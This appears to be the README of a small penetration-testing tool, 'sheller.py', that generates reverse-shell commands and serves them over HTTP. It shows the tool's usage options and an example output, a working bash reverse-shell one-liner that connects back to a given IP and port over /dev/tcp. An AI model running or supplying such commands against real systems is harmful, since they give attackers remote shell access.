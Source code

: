 # Reverse shell vending machine

This is a VERY simple script that can be used to create your basic reverse-shell commands.

All of this commands can be found online, and several people like [PentestMonkey](https://github.com/pentestmonkey) have made collections of them already. This is another collection, that can be used to insert the local IP and PORT easily.


```
usage: sheller.py [-h] [-i LOCALADDR] [-p LOCALPORT] [-o OUTFILE]
                  [--httpserver] [--httpport HTTPPORT] [-e INTERFACE]
                  shellLanguage

A script to generate reverse shells on various languages.

positional arguments:

  *shellLanguage*        Language to identify the shell to be built. Use -s to
                       see available shells.

optional arguments:

  -h, --help           show this help message and exit

  -i LOCALADDR         Address to connect back to

  -p LOCALPORT         Port to connect back to

  -o OUTFILE           File to write the reverse shell to

  --httpserver         Server the reverse-shell file on a http server

  --httpport HTTPPORT  Port to start HTTP server in, default 80

  -e INTERFACE         Interface name to get ip for reverse shell script
  ```
  
  example:

  ```
  sudo python3 sheller.py bash -p 8080 --httpserver -i eth4
  ```

  produces:

  ```
  bash -i >& /dev/tcp/169.254.138.91/8080 0>&1
  ```

  and serves it on http-server at all interfaces on port 80 at / http://localhost